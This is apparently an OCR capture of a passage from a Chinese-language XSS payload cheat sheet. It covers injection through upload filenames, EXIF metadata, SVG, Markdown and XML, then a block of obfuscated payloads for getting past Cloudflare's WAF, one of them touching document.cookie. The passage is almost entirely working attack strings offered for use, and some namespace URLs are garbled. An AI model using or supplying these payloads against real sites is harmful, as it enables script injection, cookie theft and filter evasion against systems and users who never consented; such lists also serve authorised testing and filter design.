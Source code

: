 20. 在文件名中使用XSS（文件上传）。

```
"><svg onload=alert(1)>.jpeg
```

21. 在元数据中使用XSS（文件上传）。

```
$ exiftool -Artist='"><script>alert(1)</script>' dapos.jpeg
```

22. 使用SVG文件进行XSS（文件上传）。

```
<svg xmlns="http://www.worg/2000/svg" onload="alert(1)"/>
```

23. 通过Markdown进行XSS。

```
[Click Me](javascript:alert('1'))
```

24. XML页面中的XSS。

```
<a:script xmlns:x="http://www.worg/1999/xhtml">alert(1)</a:script>
```

> 如果输入在评论部分，请添加 "-->" 到Payload。

> 如果输入在CDATA部分，请添加 "]]>" 到Payload。

### `绕过WAF`

1. Cloudflare

```java
<svg%0Aonauxclick=0;[1].some(confirm)//

<svg/onload={alert`1`}>

<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>

"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

"><onx=[] onmouseover=prompt(1)>

%2sscript%2ualert()%2s/script%2u

"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"/*/Onx=""//onfocus=prompt(1)>"//Onx=""/*/%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt`1`)"Onclick="([1].map(confirm))

[1].map(confirm)'ale'+'rt'()a&Tab;l&Tab;e&Tab;r&Tab;t(1)prompt&lpar;1&rpar;prompt&#40;1&#41;prompt%26%2300000000000000000040;1%26%2300000000000000000041;(prompt())(prompt``)

<svg onload=alert%26%230000000040"1")>

<svg onload=prompt%26%230000000040document.domain)>

<svg onload=prompt%26%23x000000028;document.domain)>

<svg/onrandom=random onload=confirm(1)>

<video onnull=null onmouseover=confirm(1)>

<a id=x tabindex=1 onbeforedeactivate=print(`XSS`)></a><input autofocus>
```